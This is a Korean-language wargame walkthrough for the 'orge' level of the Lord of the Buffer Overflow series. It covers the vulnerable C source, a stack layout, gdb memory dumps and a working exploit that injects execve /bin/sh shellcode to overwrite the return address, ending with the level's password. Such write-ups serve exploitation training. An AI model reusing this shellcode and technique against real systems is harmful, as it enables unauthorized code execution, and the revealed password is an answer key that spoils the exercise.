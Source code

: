 ============================================================================================================
[redhat-lob] (7) orge
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> a;

        a [shape=box, label="dummy * 19 + shellcode + (argv[1] address+4*i)"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="(argv[1] address+4*i)"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
            printf("argv[0] error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }

|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte)  
    argc    (4byte)  
    argv    (4byte)  <
    ----------------
    HIGH    
    ================


|

Buffer Overflow
============================================================================================================

Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[0]의 길이가 77이어야 함
- argv[1]의 47번째 문자열이 "\\xbf"이어야 함
- argv[1]의 길이가 47이하 이어야 함

.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./orge `python -c 'print "a"*47'`

    argv[0] error

    $ ./orge `python -c 'print "a"*47+"\xbf"'`

    argv[0] error

이번 문제는 argv[0]의 길이가 77 바이트를 만족해야 버퍼오버플로우를 진행할 수 있다.
77바이트의 길이를 가진 파일을 하나 생성하여 ln 명령으로 링크를 걸어준다. 
( 앞에 "./"가 있으므로 75바이트를 생성하면 된다. )

.. code-block:: console

    $ ln orge `python -c 'print "a"*75'`
    $ ls
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  orge  orge.c
    $ ./`python -c 'print "a"*75'` a
    stack is still your friend.


|


exploit
============================================================================================================

기존 문제들의 경우 실행 파일명(argv[0])의 길이에 대한 제한이 없었으나, 해당 문제는 실행 파일명의 길이가 77으로 제한되어 있어 해당 부분을 우회하여야 한다.

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/darkelf/./aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffa48       -1073743288

    (gdb) i reg $ebp
    ebp            0xbffffa68       -1073743256

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffa48:     0xbffffa68      0x400309cb      0x00000002      0xbffffa94
    0xbffffa58:     0xbffffaa0      0x40013868      0x00000002      0x08048450
    0xbffffa68:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffa78:     0xbffffa94      0x08048390      0x0804866c      0x4000ae60
    0xbffffa88:     0xbffffa8c      0x40013e90      0x00000002      0xbffffb90
    0xbffffa98:     0xbffffbec      0x00000000      0xbffffc1d      0xbffffc3f
    0xbffffaa8:     0xbffffc49      0xbffffc57      0xbffffc76      0xbffffc86
    0xbffffab8:     0xbffffc9f      0xbffffcbb      0xbffffcda      0xbffffce5
    0xbffffac8:     0xbffffcf3      0xbffffd35      0xbffffd48      0xbffffd5d
    0xbffffad8:     0xbffffd6d      0xbffffd7a      0xbffffd98      0xbffffda3
    0xbffffae8:     0xbffffdb4      0xbffffdc6      0xbffffdd5      0xbffffddd
    0xbffffaf8:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffb08:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffb18:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffb28:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffb38:     0x000001fa      0x0000000c      0x000001fa      0x0000000d
    0xbffffb48:     0x000001fa      0x0000000e      0x000001fa      0x00000010
    0xbffffb58:     0x0fabfbff      0x0000000f      0xbffffb8b      0x00000000
    0xbffffb68:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffb78:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffb88:     0x69000000      0x00363836      0x6d6f682f      0x61642f65
    0xbffffb98:     0x6c656b72      0x2f2e2f66      0x61616161      0x61616161
                                                      ^               ^
    0xbffffba8:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^               ^
    0xbffffbb8:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^               ^ argv[1] = 0xbffffbc7
                                                                            
    0xbffffbc8:     0x61616161      0x61616161      0x61616161      0x61616161
    ==========================================================================


|

RET를 argv[1] 주소로 덮어씌워 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- dummy*19 + shellcode(21)
    SFP     (4byte)  <- shellcode(4)
    RET     (4byte)  <- argv[1] 주소
    argv[1] (4byte) 
    ----------------
    HIGH    
    ================

|

오버플로우시 RET를 argv[1] 주소로 덮어씌워 해당 쉘코드가 실행되도록 한다. argv[1]의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.


.. code-block:: console

    $ ./`python -c 'print "a"*75'` `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xc7\xfb\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀▒▒▒▒
                                           
    bash$ whoami
    orge
    bash$ my-pass
    euid = 507
    timewalker


